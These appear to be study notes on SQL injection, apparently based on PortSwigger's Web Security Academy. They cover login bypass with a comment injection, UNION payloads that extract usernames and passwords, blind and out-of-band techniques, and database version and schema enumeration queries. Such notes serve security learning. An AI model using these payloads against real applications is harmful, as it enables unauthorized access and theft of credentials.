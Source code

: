 2. **Subverting application logic**:
	- username: `administrator'--`
	- `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

3. **Retrieving data from other db tables** (Union attacks)
	```
	Url: https://insecure-website.com/products?category=Gifts' UNION SELECT username, password FROM users--

	SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--' AND released=1
	```

4. Blind SQL injection
	- Change the logic of the query to trigger a detectable response
	- time delay condition
	- OAST techniques (out of band). `Powerful and efficient` Ex: for example by placing the data into a DNS lookup for a domain that you control.
	[What is Blind SQL Injection? Tutorial & Examples | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/blind)


### Second-order SQL injection
Consider the concept of stored XSS applied to SQLi.

### Examining the db
Some techniques for detecting and exploiting SQL injection work differently on different databases.

- Gather information about the database itself. Database type, version, and schema (tables, and columns in the DB)

1. **Querying the database type and version**
	Example queries:
	```sql
	select @@version -- Microsoft, MYSQL
	select * from v$version -- Oracle
	select version() -- PostgreSQL
	```

	Usage: `' UNION select @@version--`

2. **Listing the contents of the database**
	Most databases (but Oracle) have a set of views that provide info about the database.
	```sql
	select * from information_schema.tables -- Lists tables
	select * from information_schema.columns where table_name='Users'
	```

	Oracle:
	```sql
	select * from all_tables
	select * from all_tab_columns where table_name='USERS'
	```

### Union Attacks
For a `UNION` query to work, two key requirements must be met:
- The individual queries must return the same number of columns.
- The data types in each column must be compatible with the individual queries.
To carry out a SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:
- How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
